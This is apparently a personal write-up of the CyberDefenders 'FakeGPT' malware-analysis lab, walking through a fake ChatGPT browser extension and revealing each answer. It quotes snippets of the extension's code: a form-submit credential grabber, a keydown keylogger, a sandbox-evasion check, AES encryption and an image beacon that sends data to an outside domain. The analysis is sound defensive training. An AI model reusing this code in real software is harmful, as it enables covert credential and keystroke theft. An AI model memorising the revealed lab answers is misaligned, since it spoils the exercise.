 ```yaml
---
author: Ricard Alcaraz
title: FakeGPT Lab - CyberDefenders
tags:
  - Cybersecurity
  - Blue Team
  - CyberDefenders
  - Malware Analysis
languages:
  - malwareanalysis
  - javascript
image:
  url: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
  alt: fake gpt image
description: My notes about FakeGPT Lab - CyberDefenders
pubDate: 2025-08-27T17:47:00.000+02:00
heroImage: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
---
```

## Scenario
Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

Your task is to perform a thorough analysis of this extension identify its malicious components.

## Documents Provided
- app.js
- crypto.js
- img.GIF
- loader.js
- manifest.json
- ui.html

## Q1: Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

We have several files to check, the ones I looked at first where the ones that could potentially have some sort of obscure target URLs.
Looking at app.js I found this:
```javascript
    const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
When I saw the "==" at the end of the string I thought about one particular encoding, I used CyberChef and the result was `www.facebook.com`, so we just found the encoding method.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Base64
  </div>
</details>

## Q2: Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

I found it in the previous question by decoding the Base64 string.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    www.facebook.com
  </div>
</details>

 ## Q3: Which type of HTML element is utilized by the extension to send stolen data?

Here I was looking for for something related to sending data, it was not hard since the functions have a good naming. We can take a look at the function `sendToServer` and we will find the element used to send data.
```javascript
    function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }
```

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    &#60;img>
  </div>
</details>

## Q4: What is the first specific condition in the code that triggers the extension to deactivate itself?

Now we should check the other `.js` files, because `app.js` doesn't seem to have anything related. Checking `loader.js` we can see again a little help from the developer.

```javascript
    if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
        alert("Virtual environment detected. Extension will disable itself.");
        chrome.runtime.onMessage.addListener(() => { return false; });
    }
```
This alert explains that it will disable itself, if the condition is fullfilled. The condition that has to be fullfilled is one or the other separated by the or "||", in this case the question asks for the first condition.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    navigator.plugins.length === 0
  </div>
</details>

## Q5: Which event does the extension capture to track user input submitted through forms?

I had to comeback to `app.js`, now looking for an event and a form. And I found this part:
```javascript
    document.addEventListener('submit', function(event) {
        let form = event.target;
        let formData = new FormData(form);
        let username = formData.get('username') || formData.get('email');
        let password = formData.get('password');
```
The event that the extension captures is `submit` to track the user input through the form, that has two inputs, an user (or email) and a password, and if both are filled it will call the function `exfiltrateCredentials` with both parameters.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    submit
  </div>
</details>

## Q6: Which API or method does the extension use to capture and monitor user keystrokes?

In the same file `app.js` just after the section of the code I previously mentioned we can see another event capture:
```javascript
    document.addEventListener('keydown', function(event) {
        var key = event.key;
        exfiltrateData('keystroke', key);
    });
```
In this case a `keydown` event that calls to the function `exfiltrateData`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    keydown
  </div>
</details>

## Q7: What is the domain where the extension transmits the exfiltrated data?

We already know this information from the question **Q3** where I shared the piece of code of the function `sendToServer`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Mo.Elshaheedy.com
  </div>
</details>

## Q8: Which function in the code is used to exfiltrate user credentials, including the username and password?

Also I mentioned this function in the **Q5** so coming back to that piece of code will give us the information, care with the final ";" maybe in JS is not needed but it is for the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    exfiltrateCredentials(username, password);
  </div>
</details>

## Q9: Which encryption algorithm is applied to secure the data before sending?

Now, we should check for anything related to encryption algorithms, in the same file we can see a function with the name `encryptPayload` which seems related to the question, taking a look at it it uses the library `CryptoJS`, and now we can check where the `.encrypt()` is used. In this case we can see this:
```javascript
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```
So the encryption algorithm is AES, and also we can see that is using custom key and IV, where the key is `SuperSecretKey123` and a randomly generated IV.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    AES
  </div>
</details>

## Q10: What does the extension access to store or manipulate session-related data and authentication information?

We have to take a look to another file to get this one, in this case it's interesting to take a look at `manifest.json` in this configuration file we can see a parameter about the `permissions`:
```json
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage",
    "webRequest",
    "webRequestBlocking",
    "cookies"
  ]
```

And one that seems related to the question is the value which is a session-related data and authentication information, so this is the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    cookies
  </div>
</details>

